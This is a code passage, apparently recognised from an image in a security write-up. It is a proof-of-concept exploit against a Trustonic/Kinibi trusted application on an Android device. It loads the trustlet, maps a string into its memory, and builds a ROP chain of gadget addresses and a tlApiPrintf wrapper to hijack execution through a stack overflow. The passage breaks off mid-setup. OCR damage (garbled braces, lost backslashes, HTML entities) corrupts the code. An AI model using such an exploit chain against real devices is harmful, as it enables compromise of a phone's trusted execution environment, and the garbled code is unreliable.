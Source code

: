 ```

    // ROPgadget --binary fffffffff0000000000000000000001b.tlbin 
    //             --rawArch arm --rawMode thumb --offset 0x1000
    uint32_t rop_chain[] = `{`
        0x38c2 + 1, // pop `{`r0, r1, r2, r3, r4, r5, r6, pc`}`
        0x0,        // r0 (will be the string to print)
        0x0,        // r1 (argument, will be set after mcMap)
        0x0,        // r2 (not used)
        0x0,        // r3 (not used)
        0x0,        // r4 (not used)
        0x0,        // r5 (not used)
        0x0,        // r6 (not used)
        0x25070 + 1 // tlApiPrintf wrapper
    `}`;

    FILE *f = fopen(
        "/data/local/tmp/fffffffff0000000000000000000001b.tlbin",
        "rb"
    );
    if(!f) `{`
        err("Can't open TA %sn",argv[1]);
        return 1;
    `}`
    fseek(f, 0, SEEK_END);
    uint32_t ta_size = ftell(f);
    fseek(f, 0, SEEK_SET);


    char *ta_mem = malloc(ta_size);
    if (fread(ta_mem, ta_size, 1, f) != 1) `{`
        err("Can't read TA");
        return 1;
    `}`

    uint32_t tciLen = 0x20000; // TA access to fixed offset on this WSM
                               // so the buffer should be large enough
    uint32_t *tci = malloc(tciLen);

    ret = mcOpenDevice(MC_DEVICE_ID_DEFAULT);
    if(ret != MC_DRV_OK) `{`
        err("Can't mcOpenDevicen");
        return 1;
    `}`

    to_map = strdup("--&gt; Hello from the trusted application &lt;--n");

    ret = mcOpenTrustlet(&amp;session, 0, ta_mem, ta_size, 
                         (uint8_t *)tci, tciLen);
    if(ret == MC_DRV_OK) `{`
        // map the string in TA virtual space, the API returns
        // the address in the TA space.
        ret = mcMap(&amp;session, to_map, 40960, (mcBulkMap_t *)&amp;map);
        if (ret != MC_DRV_OK) `{`
            err("Can't map inn");
            return 1;
        `}`
        ok("Address in TA virtual memory : 0x%xn", map.sVirtualAddr);

        // rop_chain[1] is R0, point it to the string in TA 
        // address space.
        rop_chain[1] = map.sVirtualAddr;

        stack_size  = 0x54c; // fill stack frame
```